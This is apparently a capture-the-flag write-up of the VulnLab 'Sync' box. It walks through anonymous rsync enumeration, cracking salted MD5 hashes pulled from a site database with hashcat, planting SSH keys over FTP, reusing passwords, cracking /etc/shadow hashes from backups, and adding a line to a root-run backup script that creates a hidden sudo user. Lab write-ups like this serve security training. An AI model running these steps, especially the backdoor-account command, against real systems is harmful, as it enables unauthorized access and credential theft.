







This is a write-up of the Sync machine on [VulnLab](https://www.vulnlab.com/) by xct. This box involves anonymous rsync, cracking salted md5 hashes, and manipulating a backup script.

## User

Hint:

```text
Explore how to crack salted md5 hashes - both john & hashcat have a way of doing it.
Check for file system permission misconfigurations
```

I started by performing an nmap scan of the machine, and got the following results:

```text
PORT    STATE SERVICE VERSION
21/tcp  open  ftp     vsftpd 3.0.5
22/tcp  open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 bd:de:eb:f3:35:c0:55:3d:ee:2c:6e:31:69:81:f7:47 (ECDSA)
|_  256 16:1d:80:4b:f1:19:2c:09:5c:fd:ec:2d:76:10:ac:e8 (ED25519)
80/tcp  open  http    Apache httpd 2.4.52 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Login
873/tcp open  rsync   (protocol version 31)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

FTP didn't have anonymous login enabled, I didn't have creds or see anything super interesting on the site, so I decided to investigate rsync.

### Rsync

Rsync is a file transfer utility, and we're able to anonymously connect and view the shares with `rsync -av --list-only rsync://<IP>`, I downloaded the open httpd share with `rsync -av rsync://<IP>:873/httpd <output directory>` and found the notable files index.php and site.db:



Index.php reveals how the authentication process for the site works:

```php
$secure = "6c4972f3717a5e881e282ad3105de01e";
if (isset($_POST['username']) && isset($_POST['password'])) {
    $username = $_POST['username'];
    $password = $_POST['password'];

    $hash = md5("$secure|$username|$password");
    $db = new SQLite3('../db/site.db');
    $result = $db->query("SELECT * FROM users WHERE username = '$username' AND password= '$hash'");
    $row = $result->fetchArray(SQLITE3_ASSOC);
    if ($row) {
        $_SESSION['username'] = $row['username'];
        header('Location: dashboard.php');
        exit();
    } else {
        $error_message = 'Invalid username or password.';
    }
}
```

We can see that the password hash consists of the $secure salt value, and username/password fetched from site.db. I was able to pull the hashes for users admin and triss from the sqlite db file, and put them into the format of `hash:6c4972f3717a5e881e282ad3105de01e|user|` to feed into hashcat with `hashcat -m 20 -a 0 <hash file> <wordlist>`. I was successfully able to crack triss' password, but not admin.

### Triss

With our new credentials, I was able to log into the site as Triss, but didn't get anywhere with it:



They also didn't work on SSH which requires pubkey authentication, but I was able to login with them on FTP and access Triss' home folder. With write access to the home folder, I added my public key as an authorized key and logged in via SSH. I wasn't able to find anything of note, and linpeas didn't have a lot of useful output, so I started trying Triss' password on the other users on the system. The user Jennifer had the same password, and I was able to add my public key, and get the user flag:



## Root

Hint: `Check how the backups are done`

### Backup Contents

I first investigated the backups directory which had multiple zip archives containing backups of the website, /etc/passwd, and /etc/shadow:




I dumped the contents of shadow, and cracked the hash of the sa user which was encoded with yescrypt:



### Backup Script

Now as sa, I investigated how the backups were actually performed. I looked for anything that may be related with `find / | grep backup`:





I found backup.sh which we can see is responsible for creating the backups. This script is likely ran as root because it's interacting with /etc/shadow, and we have write permissions over the script. I added the line `useradd -m -s /bin/bash -G sudo lfgberg && echo 'lfgberg:password1' | chpasswd` to create a new superuser named lfgberg the next time the script is run, which I logged in as to grab the root flag:

